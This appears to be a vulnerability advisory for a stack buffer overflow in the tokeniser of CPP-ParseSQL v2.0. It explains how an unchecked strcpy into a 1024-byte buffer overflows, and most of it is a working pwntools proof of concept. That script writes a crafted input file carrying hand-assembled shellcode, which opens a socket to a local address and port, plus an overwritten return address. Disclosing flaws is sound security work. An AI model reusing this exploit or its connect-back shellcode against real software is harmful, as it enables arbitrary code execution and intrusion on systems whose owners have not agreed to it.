

# Stack Overflow in CPP-ParseSQL v2.0

## SUMMARY

Stack Overflow in CPP-ParseSQL v2.0

The stack overflow vulnerability is located in line 177 of the tokeniser.cpp file of the CPP-ParseSQL v2.0 program. Attackers can achieve attack effects such as arbitrary address execution, arbitrary code execution, and machine terminal acquisition by leaving carefully designed files for parsing.


## DETAIL

- source link: https://github.com/Icejin-a11y/CPP-ParseSQL/releases/tag/tag
- version: v2.0


The main function reads the sample.txt file, load SQL statements, then use `tokenise ` to tokenization


in the `tokenise `,  it keep copy byte from file to buffer


Then when it meet a `tokendel` byte run the  `gettoken` with buffer


In `tokendel` the buffer(word) copied to word_upp[1024], result a Stack Overflow when the buffer over 1024 bytes


## SHOW

before strcpy


after strcpy



## POC

build

```shell
g++ main.cpp -o main -z lazy -no-pie -fno-stack-protector -z execstack
```

```py
from pwn import *
from LibcSearcher import *
import sys

import pwnlib.shellcraft

context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h', '-p', '50', '-F' '#{pane_pid}', '-P']

sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda x,y:p.sendafter(x,y)
sla=lambda x,y:p.sendlineafter(x,y)
rc=lambda x:p.recv(x)
rl=lambda :p.recvline()
ru=lambda x:p.recvuntil(x)
ita=lambda :p.interactive()
slc=lambda :asm(shellcraft.sh())
uu64=lambda x:u64(x.ljust(8,b'\0'))
uu32=lambda x:u32(x.ljust(4,b'\0'))
getaddr=lambda :uu64(rc(6).ljust(8,b'\0'))
getbinsh=lambda :libc.search(b'/bin/sh').__next__()

def print_hex(bin_code):
    hex_string_with_spaces = ' '.join(f'{byte:02x}' for byte in bin_code)
    print(hex_string_with_spaces)
	
def gdba(x=''):
	if len(sys.argv) > 1:
		if sys.argv[1] == 'n':
			return
	if type(p)==pwnlib.tubes.remote.remote:
		return
	elif type(p)==pwnlib.tubes.process.process:
		# gdb.attach(p,x)
		gdb.attach(proc.pidof(p)[0], x)
		pause()
def getProcess():
	if len(sys.argv) > 1:
		if sys.argv[1] == 'r':
			return remote('','')
	return process('./main')

stack_addr = 0x7ffc8d4256a8
start = stack_addr - 0x7ffe211e07a8 + 0x7ffe211df260
shellcode=asm("""
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        /* open new socket */
        /* open new socket */
        /* call socket('AF_INET', SOCK_STREAM (1), 0) */
		
    xor rax, rax          /* rax = 0 */
    mov al, 0x1f          /* rax = 0x1f */
    add al, 0x8          /* rax = 0x27 */
    add al, 0x2          /* rax = 0x29 */
    xor rsi, rsi          /* esi = 0 */
			  mov rdi, rsi
		mov dil, 2
        mov sil, 1
        xor edx, edx /* rdx=0 代替cdq指令 */
        syscall
        /* Put socket into rbp */
        mov rbp, rax
        /* Create address structure on stack */
        /* push b"\x02\x00'\x0f\x7f\x00\x00\x01" */
        mov rax, 0x201010101010101
        push rax
        mov rax, 0x201010101010101 ^ 0x100007f0f270002
        xor [rsp], rax
        /* Connect the socket */
        /* call connect('rbp', 'rsp', 0x10) */
        
	xor rax, rax
        mov al, 0x23
        add al, 0x7
        mov rdi, rbp
	xor rdx, rdx
	    mov dl , 0x10
        mov rsi, rsp
        syscall
""")
print(shellcode)

payload = shellcode.ljust(0x428, b'h')+p64(start)

# payload = b'a'*0x20
# payload = payload.replace(b')', b'k')
content = payload+b"( from tbl_2 JOIN tbl_1;"


f = open('sample.txt', 'wb')
f.write(content)
f.close()
```

